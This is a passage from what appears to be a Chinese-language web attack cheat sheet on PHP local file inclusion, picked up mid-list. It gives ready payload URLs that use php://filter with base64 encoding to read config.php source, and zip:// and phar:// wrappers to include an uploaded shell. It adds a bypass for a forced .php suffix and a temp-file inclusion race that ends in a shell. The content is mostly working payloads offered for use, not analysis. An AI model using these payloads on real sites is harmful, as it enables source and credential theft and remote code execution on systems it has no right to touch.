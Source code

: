 ```
http://www.site.com/lfi.php?page=upload/image.jpg
```

```
include.php?file=test.txt 
```


## 4) php://filter

```
http://www.site.com/lfi.php?page=php://filter/resource=config.php
```

```
http://www.site.com/lfi.php?page=php://filter/convert.base64-encode/resource=config.php
```

效果一样

```
http://www.site.com/lfi.php?page=php://filter/read=convert.base64-encode/resource=xxx.php
```

## 5) Zip和Phar
文件名必须是以zip为扩展名

漏洞利用条件：php.ini中下列选项为Off

```
phar.readonly = Off
```

```
http://www.site.com/lfi.php?page=zip://image.zip%23shell.php

http://www.site.com/lfi.php?page=phar://image.phar#shell.php
```

限定了包含文件的后缀

```
include($_GET['page'] . '.php')
```

```
?page=phar://upload.phar/shell
```

```
?page=zip://upload.jpg#shell
```

## 6) 文件上传

It requires php interpreter that crashes upon infinite recursive inclusion, thus not removing temporary file.

1. Upload a file and trigger a self-inclusion
2. Repeat step 1 until successful attack
3. Bruteforce inclusion of /tmp/php[0-9a-zA-Z]{6}
4. Shell
